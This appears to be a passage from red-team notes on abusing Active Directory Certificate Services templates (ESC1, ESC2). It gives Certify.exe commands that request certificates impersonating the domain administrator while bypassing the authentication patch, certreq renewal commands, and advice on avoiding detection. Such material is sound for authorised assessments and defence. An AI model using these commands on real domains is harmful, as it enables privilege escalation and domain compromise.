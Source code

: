 2. **Enrollment Rights**:
   - Enrollment rights are enabled for a user that we control.

3. **ENROLLEE_SUPPLIES_SUBJECT Attribute**:
   - This attribute allows the certificate requestor to specify any `subjectAltName` (SAN) to request a certificate as any user, including a Domain or Enterprise Administrator.


> Target user(s) that are required to complete the goals of your operation or assessment. 

> Be aware that Domain Admin logons are more susceptible to detection.



### Bypassing the CBA Patch Using Certify

**An example command to abuse ESC1 while bypassing the CBA patch using Certify is as follows**:
```powershell
Certify.exe request /ca:dc.corp\CA /template:ProtectedUserAccess /altname:administrator /sidextension:S-1-5-21-1286082170-882298176-404569034-500 /domain:domain.corp
```



## ESC2 

ESC2 is very similar to the ESC1 abuse, with the following conditions that must be met on a template:

- **Any Purpose EKU**: `2.5.29.37.0` or no EKU is enabled for AD Authentication.
- **Enrollment Rights**: Enabled for a user that we control.
- **ENROLLEE_SUPPLIES_SUBJECT attribute**: Enabled.

The only difference between ESC1 and ESC2 is the difference in EKUs. The Any Purpose EKU primarily allows an attacker to obtain a certificate for various purposes, such as Client Authentication, Server Authentication, Code Signing, etc.




### ESC2 Abuse Example

**An example to abuse ESC2 (Any Purpose EKU) by bypassing the CBA patch using Certify is as follows**:
```powershell
Certify.exe request /ca:dc.corp\CA /template:'Substitute-ProtectedUserAccess' /altname:administrator /sidextension:S-1-5-21-1286082170-882298176-404569034-500 /domain:domain.corp
```

#### Renewing a Certificate with certreq

**An example to renew a certificate using `certreq` with its Serial Number is as follows**:
```powershell
# Renew the certificate and generate a new key
certreq -enroll -user -q -PolicyServer * -cert 620000001238d3cbef14353a19000000000012 renew reusekeys

# Renew the existing certificate
certreq -enroll -user -q -cert 620000001238d3cbef14353a19000000000012 renew
```
